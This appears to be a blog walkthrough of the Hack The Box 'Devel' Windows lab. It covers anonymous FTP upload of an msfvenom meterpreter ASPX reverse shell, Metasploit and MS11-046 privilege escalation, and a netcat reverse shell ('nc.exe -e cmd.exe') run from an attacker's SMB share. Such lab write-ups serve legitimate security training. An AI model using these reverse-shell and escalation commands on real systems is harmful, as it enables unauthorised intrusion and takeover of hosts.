 ```yaml
---
title: Devel [HTB] 
date: 2020-10-28 18:08:00 +/- 0000
categories: [Writeup, Hack_The_Box]
tags: [Walkthrough, HTB, ftp, WES, Powershell, iis, aspx, Windows, Metasploit]
headline: HTB Devel machine. Metasploit and manual exploitation.
image: /assets/img/Devel/dev1.png
---
```


Devel, not to be confused with Devil, is another beginner box that we will exploit with Metasploit and via a script, plus throw in a bit of Powershell 'cuz I need the practice. There is anonymous FTP access to the webroot, which, while highly unlikely in the real world, is pretty much game over.

## Enumeration

```shell
nmap $ip -p-
```

We see that only ports 21 and 80 are open.

```shell
nmap -sC -sV -p 21,80 $ip
```

![pic](/assets/img/Devel/dev2.png)

Anonymous access allowed on the FTP server on 21 and an iis server on port 80. There's nothing on the web server but the home page. 

![pic](/assets/img/Devel/dev3.png)

A quick peek at the FTP server and see the welcome page and welcome image, making it pretty apparent that we have access to the web root. Don't do this at home, kids.

![pic](/assets/img/Devel/dev4.png)

If we can put a reverse shell file in the web root, it will be very simple to get a reverse shell. I don't know how I know, but I know that an iis server needs an aspx shell, so I use msfvenom to make one.

## Metasploit

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.63 LPORT=2222 -f aspx > reverse.aspx
```

Putting it into the webroot is as simple as:

```shell
put reverse.aspx
```

I am using a meterpreter shell to begin with, so I set up a listener in Metasploit and execute the shell simply by calling the shell in the web browser address bar: <http://$ip/reverse.aspx>


![pic](/assets/img/Devel/dev5.png)

Unfortunately, this is not a root shell, so we have a bit more work to do. The exploit suggester in Metasploit is very good, so I background the session and run the suggester.

![pic](/assets/img/Devel/dev6.png)

MS10-015 Kitrap0d looks like the winner, here, so I just need to set the LHOST and set the session, run the module and, just like that, we have a root shell!

![pic](/assets/img/Devel/dev7.png)

## Netcat, Webshell and MS11-046

That was too easy, so let's use a more *OSCP friendly* method and upload a webshell, send netcat over so we can establish a reverse shell and then exploit a different vulnerability for root. First order of business is to find an aspx webshell.

![pic](/assets/img/Devel/dev8.png)

Put the webshell in the root folder and then it should be accessible.

![pic](/assets/img/Devel/dev9.png)

Yup! I ran systeminfo in the shell since I know that we're gonna play with Windows Exploit Suggester in a few minutes.

![pic](/assets/img/Devel/dev10.png)

I have an alias to start my *impacket* server, but the command would be:

```shell
python3 /usr/share/doc/python3-impacket/examples/smbserver.py Samba . -smb2support
```

Get the smb server going in the directory where nc.exe lives and...

![pic](/assets/img/Devel/dev11.png)

...by entering the following command into the command line on the webshell we can execute a netcat shell without even transferring the file to the target machine!

```shell
\\10.10.14.63\Samba\nc.exe -e cmd.exe 10.10.14.63 443
```

![pic](/assets/img/Devel/dev12.png)

As we already know, we don't get a root shell from the web server, so let's run [Windows Exploit Suggester (WES)](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py). First thing on the list is to update the db.

![pic](/assets/img/Devel/dev13.png)

With the database updated (it creates a file we will need to run the script), we make sure we have copied the systeminfo output to a file, called devel_systeminfo, here, and run the script. I have renamed the script wes.py.

```shell
python wes.py --database 2020-10-27-mssb.xls --systeminfo devel_systeminfo
```

![pic](/assets/img/Devel/dev14.png)

I am wanting to run a non-msf exploit, and I can't see the one I'm looking for. This machine is supposed to be vulnerable to MS11-046, but neither Metasploit's exploit suggester nor WES has told us the machine is vulnerable to this exploit. 


I have seen it exploited on someone else's writeup, so let's get crazy and try to exploit it, anyway. The exploit is easy enough to find, but, better yet, a pre-compiled binary from a reputable source. Yes, please!

<https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe>

It is just a matter of downloading the exe file and running it on the target. Here I put it in the webroot and run it, but on the video I think I just use my Samba server and run it right from my machine! You can see there is no output, but the directory changes to Windows\System32 and running the whoami command tells us we are root.

![pic](/assets/img/Devel/dev15.png)

## Nishang Powershell

I don't like Powershell very much, so I don't often use it, something I should address, really. Let's try using Powershell to get a reverse shell. We will be using a shell from [Nishang](https://github.com/samratashok/nishang).

![pic](/assets/img/Devel/dev16.png)

Always best to make a working copy, so I'll copy the shell I want to my Devel folder.

![pic](/assets/img/Devel/dev17.png)

Open up the shell in an editor and find the example for a reverse shell, which can be seen on lin 20.

![pic](/assets/img/Devel/dev18.png)

Copy this line and paste it to the bottom of the script, changing the ip and port to suit.

![pic](/assets/img/Devel/dev19.png)

Start the python server in the Devel directory and enter the following powershell command into the webshell command line and it will fetch and execute the shell, so make sure there is a listener running.

![pic](/assets/img/Devel/dev20.png)

That's about all we're gonna get out of this one. Shame WES didn't show us the MS11-046 exploit. Consider running Watson if you really want to see it for yourself.

Link to the video: <https://youtu.be/vtRlu2yRNGY>

M0nkey out.














